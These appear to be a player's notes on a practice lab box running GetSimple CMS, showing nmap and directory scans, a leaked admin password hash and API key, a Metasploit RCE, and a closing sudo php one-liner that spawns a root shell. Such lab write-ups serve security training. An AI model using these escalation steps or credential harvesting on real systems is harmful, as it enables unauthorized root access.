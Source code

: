 ```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

/admin requires a login
port 22 could be used to pivot or login using creds
Enum http further to potentially find version

Apache/2.4.41
/admin/ sub directory scan
```
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/inc                  (Status: 301) [Size: 318] [--> http://10.129.159.36/admin/inc/]
/index.php            (Status: 200) [Size: 2623]
/lang                 (Status: 301) [Size: 319] [--> http://10.129.159.36/admin/lang/]
/template             (Status: 301) [Size: 323] [--> http://10.129.159.36/admin/template/]
Progress: 4614 / 4615 (99.98%)


```
- Scan of the main domain
```
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://10.129.159.36/admin/]
/backups              (Status: 301) [Size: 316] [--> http://10.129.159.36/backups/]
/data                 (Status: 301) [Size: 313] [--> http://10.129.159.36/data/]
/index.php            (Status: 200) [Size: 5485]
/plugins              (Status: 301) [Size: 316] [--> http://10.129.159.36/plugins/]
/robots.txt           (Status: 200) [Size: 32]
/server-status        (Status: 403) [Size: 278]
/sitemap.xml          (Status: 200) [Size: 431]
/theme                (Status: 301) [Size: 314] [--> http://10.129.159.36/theme/]
Progress: 4614 / 4615 (99.98%)

```


Index.php is the same as admin
Robots.txt only has disallow admin which we already know exists
backups has folders that can be investigated
	Nothing in backups
	
plugins
	does not appear to have anything of interest yet, just some php scripts.
```
Cache information
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
```
```
<item>
<apikey>4f399dc72ff8e619e327800f851e9986</apikey>
</item>
```
This may be the api key?
Admin information stored in /data/users/admin.xml
```
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>
```
Login does not appear to work
```
admin@10.129.159.36: Permission denied (publickey,password).
```
Can't ssh need the public key.
It also appears that admin is for ssh and not the login for the website

Used metasploit after not finding anything, found the version was 3.3.15 and it had a Unauthorized RCE.

```
User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

```

```
CMD="/usr/bin/bash"
sudo php -r "system('$CMD');"
```
allows us to elevate to root